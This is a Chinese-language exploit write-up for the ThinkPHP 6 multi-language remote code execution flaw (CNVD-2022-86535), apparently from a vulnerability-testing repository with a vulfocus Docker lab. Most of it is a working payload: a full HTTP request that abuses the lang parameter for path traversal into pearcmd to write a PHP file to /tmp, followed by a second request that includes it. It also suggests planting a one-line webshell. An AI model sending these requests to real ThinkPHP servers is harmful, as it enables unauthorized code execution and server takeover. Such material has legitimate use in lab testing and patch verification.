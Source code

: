 # ThinkPHP多语言RCE (CNVD-2022-86535)

* 运行环境
```
docker run -itd -p 80:80 vulfocus/thinkphp:6.0.12
```

## 简介
如果 Thinkphp 程序开启了多语言功能，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE


利用条件: 需要知道pearcmd物理路径

参考: https://mp.weixin.qq.com/s/jECbQ4KodbCrEvoCQFSosw

## Payload
1. 写入php文件
```
GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=md5(367258)?>+/tmp/367258.php HTTP/1.1
Host: XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Content-Type: application/x-www-form-urlencoded
Accept: */*
Connection: close
Accept-Encoding: gzip, deflate
```


2. 包含php文件
```
/index.php?lang=../../../../../../../../tmp/367258
```

## vulcat
* 利用vulcat验证漏洞
![](./01.png)
![](./02.png)

* 如果知道网站物理路径，可以尝试写入一句话
![](./03.png)
![](./04.png)
